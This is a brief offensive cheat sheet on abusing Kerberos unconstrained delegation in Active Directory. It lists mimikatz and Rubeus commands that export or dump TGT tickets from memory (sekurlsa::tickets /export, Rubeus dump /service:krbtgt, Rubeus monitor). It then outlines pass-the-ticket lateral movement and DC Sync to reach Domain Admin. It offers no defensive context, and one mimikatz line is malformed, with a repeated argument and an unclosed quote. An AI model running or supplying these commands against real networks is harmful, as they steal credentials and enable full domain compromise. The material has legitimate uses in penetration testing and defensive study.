 # Unconstrained Delegation

## Requirements: UAC: ADS_UF_TRUSTED_FOR_DELEGATION

## Tools: Rubeus , mimikatz 

# Get tickets

#### 1) mimikatz

 - mimikatz "privilege::debug sekurlsa::tickets /export sekurlsa::tickets /export (Get TGT ticket)

#### 2) Rubeus

 - Rubeus dump /service:krbtgt /nowrap (Get TGT ticket)

 - Rubeus dump /luid:0xdeadbeef /nowrap (Get TGT ticket)

# Force_coercion_with_coerced_auth

#### 1) Rubeus monitor /interval:5 (Get TGT)

### We get the ticket, then we move laterally with Pass the Ticket. If the target is a DC, we do a DC Sync to get Domain Admin access
